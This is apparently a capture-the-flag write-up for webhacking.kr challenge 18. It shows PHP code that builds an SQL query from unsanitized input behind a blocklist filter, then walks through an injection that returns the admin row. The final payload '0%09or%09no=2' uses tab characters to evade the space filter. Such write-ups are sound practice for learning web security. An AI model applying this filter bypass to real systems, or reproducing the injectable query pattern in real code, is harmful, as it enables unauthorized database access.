




Problem18
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-32//>   
 
If you enter the URL, you can see the below photo.   
      
 

### First, View Source   
   
   
    
If you look at the code, you can see this part. 
    
```   
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
```   
    
### Second, Filter a roundabout way (필터 우회)    

```   
"/ |\/|\(|\)|\||&|select|from|0x/i"  
```   

Filter: <strong>( '/', '(', ')', '\', '&', "select", "from" etc..) </strong>    
       
### Thrid, SQL Injection    
     
#### OR Operation   

```  
1. True | True = True 
2. True | False = True 
3. False | True = True 
4. False | False = False 
```    

#### AND Operation 
     
```   
1. True & True = True 
2. True & False = False 
3. False & True = False 
4. False & False = False 
```    
      
If the result['id'] is "admin", the problem is solved.    
To get it, we should manipulate "select id from chall18 where id='guest' and no=$_GET[no]".   
     
Let's think about it. (id='guest' and no=$_GET[no] == False OR no == 2)    
Then, the ID will have an "admin".    
If the query statement is made like this, What will happen?    
     
<strong>"select id from chall18 where id='guest' and no=0 or no=2".</strong>    
    
Then, (id='guest' and no=0) was False, so the query becomes "select id from chall18 where no=2".

Like below photo. (Just TEST)   
    
    
     
#### (TEST Table)   
   
    
    
Through this, you can enter the value of "no".     
   
Solution: <strong>0%09or%09no=2</strong> ("%09": Tab (URL Encoding))
    
    
     

